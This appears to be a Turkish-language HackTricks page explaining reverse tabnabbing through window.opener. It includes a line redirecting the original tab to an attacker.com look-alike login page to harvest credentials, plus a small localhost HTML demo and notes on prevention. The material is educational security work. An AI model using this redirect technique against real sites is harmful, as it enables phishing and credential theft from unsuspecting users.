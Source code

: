{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}


# Açıklama

Bir **saldırganın**, bir mağdur tarafından tıklanacak olan **`<a`** etiketinin **`href`** argümanını **kontrol edebildiği** bir durumda, **saldırgan** bu **bağlantıyı** kontrolü altında olan bir web sitesine (bir **kötü niyetli** **web sitesi**) yönlendirebilir. Ardından, **mağdur bağlantıya tıkladığında** ve saldırganın web sitesine eriştiğinde, bu **kötü niyetli** **web sitesi**, javascript nesnesi **`window.opener`** aracılığıyla **orijinal** **sayfayı** **kontrol edebilir**.\
Eğer sayfa **`rel="opener"`** içermiyorsa ama `target="_blank"` içeriyorsa ve **`rel="noopener"`** içermiyorsa, bu da savunmasız olabilir.

Bu davranışı kötüye kullanmanın yaygın bir yolu, **orijinal webin konumunu** `window.opener.location = https://attacker.com/victim.html` ile saldırganın kontrolündeki ve **orijinaline benzeyen** bir web sitesine değiştirmektir, böylece **orijinal web sitesinin** **giriş** **formunu** **taklit edebilir** ve kullanıcıdan kimlik bilgilerini isteyebilir.

Ancak, **saldırgan artık orijinal web sitesinin pencere nesnesini kontrol edebildiğinden**, bunu başka yollarla **gizli saldırılar** gerçekleştirmek için kötüye kullanabilir (belki de javascript olaylarını değiştirerek bilgileri kendisinin kontrolündeki bir sunucuya sızdırmak?).

# Genel Bakış

## Geri bağlantı ile

Önleme niteliği kullanılmadığında ana ve alt sayfalar arasındaki bağlantı:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## Geri bağlantı olmadan

Önleme niteliği kullanıldığında ana ve alt sayfalar arasındaki bağlantı:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## Örnekler <a href="#examples" id="examples"></a>

Aşağıdaki sayfaları bir klasörde oluşturun ve `python3 -m http.server` ile bir web sunucusu çalıştırın.\
Ardından, **erişim sağlayın** `http://127.0.0.1:8000/`vulnerable.html, **bağlantıya tıklayın** ve **orijinal** **web sitesinin** **URL'sinin** **nasıl değiştiğini** not edin.

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## Erişilebilir özellikler <a href="#accessible-properties" id="accessible-properties"></a>

**Farklı kökenler** arasında bir erişim gerçekleştiğinde (farklı alanlar arasında erişim), kötü niyetli bir sitenin erişebileceği **opener** JavaScript nesne referansı ile belirtilen **window** JavaScript sınıf örneğinin özellikleri aşağıdaki ile sınırlıdır:

- **`opener.closed`**: Bu özellik, bir pencerenin kapatılıp kapatılmadığını belirlemek için erişilir ve bir boolean değeri döner.
- **`opener.frames`**: Bu özellik, mevcut penceredeki tüm iframe öğelerine erişim sağlar.
- **`opener.length`**: Mevcut pencerede bulunan iframe öğelerinin sayısını döner.
- **`opener.opener`**: Bu özellik aracılığıyla mevcut pencereyi açan pencerenin referansı elde edilebilir.
- **`opener.parent`**: Bu özellik, mevcut pencerenin üst pencere referansını döner.
- **`opener.self`**: Bu özellik, mevcut pencereye erişim sağlar.
- **`opener.top`**: Bu özellik, en üstteki tarayıcı penceresini döner.

Ancak, alanlar aynı olduğunda, kötü niyetli site, [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) JavaScript nesne referansı tarafından açığa çıkarılan tüm özelliklere erişim kazanır.

# Önleme

Önleme bilgileri [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing) belgesinde belgelenmiştir.

## Referanslar

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

